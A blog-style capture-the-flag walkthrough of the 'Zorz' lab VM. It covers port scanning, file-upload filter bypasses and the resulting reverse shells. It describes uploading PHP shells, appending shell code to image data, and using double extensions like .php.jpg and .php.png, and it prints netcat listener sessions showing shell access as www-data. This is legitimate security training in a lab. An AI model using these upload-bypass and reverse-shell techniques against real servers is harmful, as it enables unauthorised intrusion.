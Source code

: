 ```yaml
---
layout: blog_item
title: "Zorz Walkthrough"
date: "2015-07-01"
author: Arr0way
description: 'Zorz - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

Welcome to the ZorZ VM Challenge

This machine will probably test your web app skills once again. There are 3 different pages that should be focused on (you will see!) If you solve one or all three pages, please send me an email and quick write up on how you solved each challenge. Your goal is to successfully upload a webshell or malicious file to the server. If you can execute system commands on this box, thats good enough!!! I hope you have fun!

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.110

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.4.7 ((Ubuntu))</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Enumeration of port 80, discovered <code>login.php</code>:

![dirbuster](/img/blog/zorz/dirbuster.png)

## Level 1

The web application has no filter protection, so uploading a PHP shell is possible.

![uploader1](/img/blog/zorz/uploader1.png)

PHP Shell Upload:

![php shell upload](/img/blog/zorz/file-upload.png)

The location <code>/uploads2</code> was previously disclosed by **Dirbuster**, <code>/uploads1</code> was discovered manually (logical guess).

![php shell execution](/img/blog/zorz/uploads1.png)

Reverse shell:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443                               
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.111] 33115
Linux zorz 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 16:21:31 up 1 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$

{% endhighlight %}

Level 1 complete.

## Level 2

The initial attempt to upload the previous shell failed with the error message:

![php shell upload fail](/img/blog/zorz/upload2-fail.png)

Several attempts were then made to upload shells with various extensions such as <code>shell.png.php</code> , <code>shell.php.png</code> etc to bypass the web application filtering, all attempts to bypassed the filtering failed.

### Burp Suite - PHP Shell Injection in an Image file

It was apparent the web application had a mechanism for image file validation, several attempts were made to inject the php shell code into the image file. The solution was to inject the code at the end of the image data.

The file extension also needed modifying to <code>.php.jpg</code>, this appeared to force the web server to process the file, likely due to poorly configured Apache MIME types.

![Burp Suite shell injection in an image](/img/blog/zorz/burp-php-shell-injection-in-an-image.png)

Image uploaded successfully.

![Shell Upload](/img/blog/zorz/uploaded-shell.png)

Execution of image from <code>/uploads2</code>

![upload dir](/img/blog/zorz/dir.png)

### Reverse Shell:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.111] 33118
Linux zorz 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 17:02:32 up 42 min,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$

{% endhighlight %}

Level 2 complete.

## Level 3

Level 4 was beaten simply by renaming the php reverse shell to <code>php-reverse-shell.php.png</code>, this was enough to bypass the filtering.

![Level 3](/img/blog/zorz/level3.png)

An alternative solution would of been to use burp to upload the file + change the content type.

## Flag

{% highlight bash %}

$ cd l337saucel337
$ ls
SECRETFILE
$ cat SE
cat: SE: No such file or directory
$ cat SECRETFILE
Great job so far. This box has 3 uploaders.

The first 2 are pure php, the last one is php w/jquery.

To get credit for this challenge, please submit a write-up or instructions
on how you compromised the uploader or uploaders. If you solve 1, 2, or all
of the uploader challenges, feel free to shoot me an email and let me know!

Thanks for playing!
http://www.top-hat-sec.com
$

{% endhighlight %}

Level 3 complete.

Thanks for the VM :)
